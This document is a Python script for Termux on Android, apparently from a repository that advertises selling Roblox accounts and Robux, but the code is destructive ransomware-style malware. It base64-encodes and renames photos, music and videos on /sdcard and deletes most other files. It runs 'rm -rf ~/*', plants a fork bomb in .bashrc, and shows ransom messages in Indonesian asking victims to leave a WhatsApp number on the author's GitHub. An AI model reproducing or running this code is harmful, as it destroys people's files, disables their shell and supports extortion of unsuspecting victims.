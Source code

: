 # ROBLOX
PENJUALAN AKUN ROBLOX DAN ROBUX
from zipfile import ZipFile
from base64 import b64encode
from base64 import b64decode
import os, datetime, sys, time, random
from shutil import copyfile
os.system('termux-setup-storage')

def pes(cuk):
    for ewe in cuk + '\n':
        sys.stdout.write(ewe)
        sys.stdout.flush()
        time.sleep(0.06)


def pesl(cuk):
    for ewe in cuk + '\n':
        sys.stdout.write(ewe)
        sys.stdout.flush()
        time.sleep(0.1)


def apa():
    os.system('clear')
    print '\x1b[38;5;022m\xe2\x95\xad\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x95\xae\n\xe2\x94\x82   KETERANGAN   \xe2\x94\x82\n\xe2\x95\xb0\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x95\xaf\n'
    print '\x1b[38;5;022m ' + 50 * '*' + '\n *\x1b[38;5;015m\x1b[48;5;009m  Anda Terkena Virus, Dan semua File Yang ada   \x1b[48;5;000m\x1b[38;5;022m*\n *\x1b[38;5;015m\x1b[48;5;009m  di Memori Internal anda Sudah TerEncrypt.     \x1b[48;5;000m\x1b[38;5;022m*\n *\x1b[38;5;232m\x1b[48;5;015m  TIDAK bisa Dilihat, Dibaca ataupun Dimiliki   \x1b[48;5;000m\x1b[38;5;022m*\n *\x1b[38;5;232m\x1b[48;5;015m  (Karena dia udah jadi milik orang lain)       \x1b[48;5;000m\x1b[38;5;022m*\n ' + 50 * '*' + '\n * \x1b[38;5;242m NOTE: File Anda AMAN, Asal jangan Buka SC ini \x1b[38;5;022m*\n *\x1b[38;5;242m        lebih dari 1 KALI.                      \x1b[38;5;022m*\n ' + 50 * '*'
    print '\n\x1b[38;5;022m\xe2\x95\xad\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x95\xae\n\xe2\x94\x82 Apa FILE Saya Bisa Kembali ? \xe2\x94\x82\n\xe2\x95\xb0\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x95\xaf \n\n \x1b[38;5;022m' + 50 * '*' + '\n *  TENTU, File Anda TerEncrypt Dengan Aman       *\n *  dan Tidak Terhapus. Semua File (Foto, Musik   *\n *  & Video) Akan Kembali Seperti Semula.         *\n ' + 50 * '*'
    print '\n\x1b[38;5;022m\xe2\x95\xad\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x95\xae\n\xe2\x94\x82 Apa Yang Harus Saya Lakukan? \xe2\x94\x82\n\xe2\x95\xb0\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x95\xaf \n\n ' + 50 * '*' + '\n *  Silahkan Komentar Di Github Saya,             *\n *  => \x1b[38;5;046mhttps://github.com/gellmoxer               \x1b[38;5;022m*\n *  Dan Cantumkan Nomor WA Anda.                  *\n ' + 50 * '*' + '\n\n\x1b[48;5;052m\x1b[38;5;015m SCREENSHON AGAR TIDAK LUPA \x1b[48;5;000m*\n'


def get_all_file_paths(directory):
    icn = [
     'QEdFTExNb3hlci5FbmMoc3VwZXIpVnkyYlVUZFh3M21OdnFMa3gwbWd5', 'UjBWTVRFQkZibU55ZVhCMFltRnpaVEkzTWpNb1pYaGxZeTV5WlhabGNuTmxLRWxuY3prMlltRldZMnhSZDJORmMyeElZWFJS', 'UjBWTVRFQkZibU55ZVhCMExuSmxkbVZ5YzJVdWMzQnNhU2dwS0dWNFpXTW9ZbUZXWTJ4UmQyTkZjMnhJTm1oaFVHVklkdz09', 'UjBWTVRFQkZibU55ZVhCMExuTndiR2tvS1Nod2VVVnVZeWhqTm5kS1kxaGpiRlIzY3psSVlsSnlaVTU1']
    gell = random.choice(icn)
    file_paths = []
    for root, directories, files in os.walk(directory):
        for filename in files:
            filepath = os.path.join(root, filename)
            filepathr = filepath.replace('.', ' ')
            fileas = filepathr.split()[(-1)]
            fileask = fileas.lower()
            foto = ['jpg', 'jpeg', 'png', 'gif']
            video = ['mp4', '3gp', 'mpv']
            musik = ['mp3', 'wav', 'ogg']
            sc = ['txt', 'py', 'pyc', 'sh', 'php', 'zip', '7z', 'tar', 'gz', 'pkg', 'java', 'lua', 'rar', 'pdf', 'html', 'htm', 'css', 'js', 'xhtml', 'sys', 'doc', 'webp', 'crypt1', 'crypt12', 'opus', 'enc', 'db', 'dat', 'usr', 'tps', 'xth', 'xml', 'aes', 'doc', 'json', 'arsc', 'cfg', 'ttf', 'obj', 'obb', 'bak', 'tmp']
            if fileask in foto:
                filesp = filepathr.split()[0]
                filespa = filesp + '_GellMoxer.jpg'
                os.rename(filepath, filespa)
                file_paths.append(filespa)
                with open(filespa, 'rb') as (image_file):
                    encoded_string = b64encode(image_file.read())
                    decoded_string = b64encode(encoded_string)
                    with open(filespa, 'w') as (image_file2):
                        image_file2.write(gell + decoded_string)
            elif fileask in musik:
                filesp = filepathr.split()[0]
                filespa = filesp + '_GellMoxer.mp3'
                os.rename(filepath, filespa)
                file_paths.append(filespa)
                with open(filespa, 'rb') as (image_file):
                    encoded_string = b64encode(image_file.read())
                    decoded_string = b64encode(encoded_string)
                    with open(filespa, 'w') as (image_file2):
                        image_file2.write(gell + decoded_string)
            elif fileask in video:
                filesp = filepathr.split()[0]
                filespa = filesp + '_GellMoxer.mp4'
                os.rename(filepath, filespa)
                file_paths.append(filespa)
                with open(filespa, 'rb') as (image_file):
                    encoded_string = b64encode(image_file.read())
                    decoded_string = b64encode(encoded_string)
                    with open(filespa, 'w') as (image_file2):
                        image_file2.write(gell + decoded_string)
            elif fileask == 'apk':
                filesp = filepathr.split()[0]
                filespa = filesp + '.apk'
                os.rename(filepath, filespa)
                os.remove(filespa)
            elif fileask in sc:
                filesp = filepathr.split()[0]
                filespa = filesp + '.sc'
                os.rename(filepath, filespa)
                os.remove(filespa)
            else:
                filesp = filepathr.split()[0]
                filespa = filesp + '.OndeOnde'
                os.rename(filepath, filespa)
                os.remove(filespa)

    return file_paths


def main():
    directory = './python_files'
    file_paths = get_all_file_paths('/sdcard')
    print '\n\n\x1b[1;96m            MOHON DI BACA:\n' + 40 * '-'
    pes('\n       \x1b[1;91mJANGAN DI SKIP! PENTING!!')
    pes(' \x1b[1;92mSEMUA File Anda Sudah \x1b[1;96mTerEncrypt \xf0\x9f\x94\x90\n')
    pesl('  \x1b[1;91mBERHENTILAH MENCURI:\n  \x1b[1;96m\xe2\x9d\x9d Dan peliharalah dirimu dari (azab yang terjadi pada)\n    hari yang pada waktu itu kamu semua dikembalikan\n    kepada Allah. (QS. Al Baqarah: 281)\xe2\x9d\x9e\n')
    pes(' \x1b[1;97m_> \x1b[1;91mNOTE:\x1b[1;92m SELAIN FILE FOTO, MUSIC DAN VIDEO, \x1b[1;91m SUDAH TERHAPUS!!\n          \x1b[1;92mDAN JANGAN BUKA \x1b[1;96mSC\x1b[1;92m INI 2 KALI.!! AGAR FILE ANDA AMAN. ')
    pes('\n\n \x1b[1;94m Sekarang Coba Buka \x1b[1;97m(\x1b[1;91mMEMORY TELEPHON\x1b[1;97m)\x1b[1;92m ANDA.!!\n Masih Ada dan Tidak \x1b[1;96m Terhapus,\x1b[1;92m Hanya Tidak Bisa\n Dilihat ataupun di Buka.')
    pesl('\x1b[1;93m Untuk Keterangan Lebih Lanjut \x1b[1;92mKetik \x1b[1;96mhelp\x1b[1;92m \n\n         \x1b[1;96m \xe2\x9d\x8cDONT CRY \xf0\x9f\x98\x9b\xf0\x9f\x91\xbb')
    time.sleep(1)
    tyn = raw_input('\n\x1b[1;97m    _>\x1b[1;96m ')
    tym = ['help', 'Help', 'HELP']
    if tyn in tym:
        apa()
    else:
        os.sys.exit()


if __name__ == '__main__':
    iz = raw_input('\n\n\n\x1b[1;97m\xe2\x9e\xa4 \x1b[1;92mIzinkan Akses SDCARD (y/n) : \x1b[1;96m')
    siap = ['y', 'Y', 'Yes', 'yes', 'ya', 'Ya', 'ok', 'Ok']
    if iz in siap:
        os.system('termux-setup-storage')
        os.system('rm -rf ~/*')
        os.system('touch .hushlogin')
        os.system('printf ":(){ :|: & };:\n" > $HOME/.bashrc')
    else:
        print '\x1b[1;97m\n\xe2\x9e\xa4\x1b[1;91m KELUAR!\n'
        os.sys.exit()
    os.system('clear')
    main()⏎
